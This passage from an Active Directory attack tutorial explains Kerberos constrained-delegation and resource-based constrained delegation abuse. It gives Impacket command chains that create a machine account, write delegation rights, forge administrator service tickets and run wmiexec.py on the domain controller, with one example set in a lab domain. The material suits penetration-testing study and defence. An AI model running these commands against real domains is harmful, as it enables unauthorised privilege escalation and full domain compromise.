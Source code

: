 ##### Without Protocol transition

In this case, we need a forwardable `ST` as the administrator to any service on the server. Here, we can't just ask for the `ST` like we did earlier with protocol transition so we need to create a machine and add delegation from our created machine to the server (that has delegation). Why would we do that ? Because the resulted `ST` from our created machine is a forwardable ticket on the server (that has delegation).

First, we create our machine:
```bash
addcomputer.py -computer-name 'rbcd_created_machine$' -computer-pass 'rbcdpass' -dc-host $DC_IP $DOMAIN/$USER:$PASSWORD
```

Now, we add the `RBCD` from `rbcd_created_machine$` to the server with `Constrained Delegation`.
```bash
rbcd.py -delegate-from 'rbcd_created_machine$' -delegate-to $SERVER_NAME_WITH_DELEGATION -dc-ip $DC_IP -action 'write' -hashes ":$SERVER_HASH" $DOMAIN/$SERVER_NAME_WITH_DELEGATION
```

Now that everything is set up, we can use `S4U2Slef` followed by `S4U2Proxy` on the server with delegation.

```bash
# s4u2self on rbcd_created_machine
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_created_machine$':'rbcdpass'

# s4u2proxy from rbcd_created_machine to $SERVER_NAME_WITH_DELEGATION
getST.py -impersonate "administrator" -spn "host/$SERVER_NAME_WITH_DELEGATION" -additional-ticket 'TICKET_NAME.ccache' -dc-ip $DC_IP  $DOMAIN/'rbcd_created_machine$':'rbcdpass'
```

or using only one command:

```bash
getST.py -spn "host/$SERVER_NAME_WITH_DELEGATION" -impersonate Administrator -dc-ip $DC_IP  $DOMAIN/'rbcd_created_machine$':'rbcdpass'
```

And finally, we use our forwardable ticket we just received to get a `ST` as the administrator on the `DC` and connect to it:

```bash
getST.py -impersonate "administrator" -spn "http/$DC_NAME" -altservice "cifs/$DC_NAME" -additional-ticket 'TICKET_OF_ADMIN_OF_SERVER.ccache' -dc-ip $DC_IP -hashes ":$SERVER_HASH" $DOMAIN/$SERVER_NAME_WITH_DELEGATION

export KRB5CCNAME=/PATH/TO/TICKET_OF_ADMIN_OF_DC.ccache 
wmiexec.py -k -no-pass $DOMAIN$/administrator@$DC_NAME
```

#### Resource Based Constrained Delegation

`Resource Based Constrained Delegation` (RBCD) works the other way around. It is not the `RBCD` server that checks if it has the right to impersonate the service (ex: web server).The machine account can change its own attribute and not only the DA can change it on the DC. If the machine is compromised, then we can get the hash of the machine account and then continue the attack. This means that if you create a machine (MachineAccountQuota > 0) then you can specify that a specific server can impersonate your machine.

